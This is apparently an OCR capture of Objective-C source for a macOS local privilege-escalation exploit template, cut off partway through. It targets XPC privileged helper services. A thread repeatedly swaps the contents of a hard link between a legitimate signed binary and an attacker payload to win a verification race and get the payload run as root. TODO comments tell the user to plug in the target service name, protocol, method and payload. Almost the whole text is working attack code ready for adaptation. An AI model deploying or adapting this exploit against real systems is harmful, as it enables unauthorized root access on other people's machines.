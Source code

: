 ```objectivec
// export OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES
// gcc -framework Foundation expl.m -o expl

#include <Foundation/Foundation.h>
#include <spawn.h>
#include <pthread.h>

// TODO: CHANGE PROTOCOL AND FUNCTIONS
@protocol HelperProtocol
- (void)DoSomething:(void (^)(_Bool))arg1;
@end

// Global flag to track exploitation status
bool pwned = false;

/**
 * Continuously overwrite the contents of the 'hard_link' file in a race condition to make the 
 * XPC service verify the legit binary and then execute as root out payload.
 */
void *check_race(void *arg) {
    while(!pwned) {
        // Overwrite with contents of the legit binary
        system("cat ./legit_bin > hard_link");
        usleep(50000);

        // Overwrite with contents of the payload to execute
        // TODO: COMPILE YOUR OWN PAYLOAD BIN
        system("cat ./payload > hard_link");
        usleep(50000);
    }
    return NULL;
}

void child_xpc_pid_rc_abuse(){
    // TODO: INDICATE A VALID BIN TO BYPASS SIGN VERIFICATION
    #define kValid "./Legit Updater.app/Contents/MacOS/Legit"
    extern char **environ;

    // Connect with XPC service
    // TODO: CHANGE THE ID OF THE XPC TO EXPLOIT
    NSString*  service_name = @"com.example.Helper";
    NSXPCConnection* connection = [[NSXPCConnection alloc] initWithMachServiceName:service_name options:0x1000];
    // TODO: CNAGE THE PROTOCOL NAME
    NSXPCInterface* interface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperProtocol)];
    [connection setRemoteObjectInterface:interface];
    [connection resume];

    id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError* error) {
        NSLog(@"[-] Something went wrong");
        NSLog(@"[-] Error: %@", error);
    }];

    NSLog(@"obj: %@", obj);
    NSLog(@"conn: %@", connection);

    // Call vulenrable XPC function
    // TODO: CHANEG NAME OF FUNCTION TO CALL
    [obj DoSomething:^(_Bool b){
        NSLog(@"Response, %hdd", b);
    }];

    // Change current process to the legit binary suspended
```